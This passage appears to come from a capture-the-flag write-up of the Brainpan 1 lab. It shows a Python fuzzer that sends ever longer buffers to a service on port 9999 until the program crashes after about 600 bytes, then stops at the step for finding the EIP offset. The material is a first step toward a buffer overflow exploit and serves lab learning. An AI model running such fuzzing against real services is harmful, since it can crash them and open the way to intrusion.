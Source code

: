 We can download the executable that is used in the service in port 9999.

## Exploitation

### Fuzzing

First we build a `fuzzer` to test the application locally.

````py
import socket, time, sys

ip = "192.168.1.69"
port = 9999
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
````

We run it against the executable and have

![fuzz](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/brainpan1/bpn5.png)

The executable crashes with more than 600 bytes. 

### Finding EIP Offset
